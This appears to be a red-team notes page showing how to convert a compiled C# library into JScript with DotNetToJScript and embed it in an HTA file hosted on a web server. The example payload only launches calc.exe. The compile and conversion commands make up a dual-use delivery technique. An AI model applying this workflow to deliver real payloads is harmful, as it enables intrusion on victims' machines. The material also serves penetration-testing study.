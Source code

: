 # JS files - DotNetToJScript

## JS files - DotNetToJScript

### Usage

* **Create a simple C\# program \(public class...\)**

```csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Windows.Forms;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

public class Hello
{
    public void Hellocal()
        {
            Process.Start("calc.exe");
            System.Windows.Forms.MessageBox.Show("hello from calc");


        }
}


```

Note the Class and the method name

![](../../../../.gitbook/assets/image%20%28297%29.png)

* **Compile it as a library:**

```text
 C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /platform:x86 /target:library hellocalc.cs
```

![](../../../../.gitbook/assets/image%20%28124%29.png)

* **Download latest DotNetToJScript and compile it \(x86 for x86 payload ...\)**

```csharp
 git clone https://github.com/tyranid/DotNetToJScript
```

* **Execute DotNetToJScript specify the Class name, an ouput file and the DLL.**

```text
 .\DotNetToJScript.exe -l JScript -c Hello -o output.txt .\hello.dll
```

* **Edit the output and add the method**

![](../../../../.gitbook/assets/image%20%2848%29.png)

### HTA Weaponize 

* **Add the edited output.txt to your HTA file :**

![](../../../../.gitbook/assets/image%20%28152%29.png)

![](../../../../.gitbook/assets/image%20%28123%29.png)

* **Host the file on a webserver :**

![](../../../../.gitbook/assets/image%20%28135%29.png)

![](../../../../.gitbook/assets/image%20%28106%29.png)

### \*\*\*\*

